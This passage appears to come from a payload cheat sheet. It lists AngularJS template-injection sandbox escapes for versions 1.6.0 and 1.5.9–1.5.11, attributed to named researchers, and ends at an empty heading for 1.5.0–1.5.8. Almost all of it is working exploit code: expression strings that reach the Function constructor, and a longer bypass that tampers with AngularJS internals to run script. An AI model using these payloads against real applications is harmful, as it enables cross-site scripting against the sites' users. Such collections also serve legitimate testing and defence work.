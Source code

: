   

AngularJS 1.6.0 by [@LewisArdern](https://twitter.com/LewisArdern/status/1055887619618471938) & [@garethheyes](https://twitter.com/garethheyes/status/1055884215131213830)

  

```javascript

{{0[a='constructor'][a]('alert(1)')()}}

{{$eval.constructor('alert(1)')()}}

{{$on.constructor('alert(1)')()}}

```

  

AngularJS 1.5.9 - 1.5.11 by [Jan Horn](https://twitter.com/tehjh)

  

```javascript

{{

c=''.sub.call;b=''.sub.bind;a=''.sub.apply;

c.$apply=$apply;c.$eval=b;op=$root.$$phase;

$root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;

C=c.$apply(c);$root.$$phase=op;$root.$digest=od;

B=C(b,c,b);$evalAsync("

astNode=pop();astNode.type='UnaryExpression';

astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';

astNode.argument={type:'Identifier',name:'foo'};

");

m1=B($$asyncQueue.pop().expression,null,$root);

m2=B(C,null,m1);[].push.apply=m2;a=''.sub;

$eval('a(b.c)');[].push.apply=a;

}}

```

  

AngularJS 1.5.0 - 1.5.8
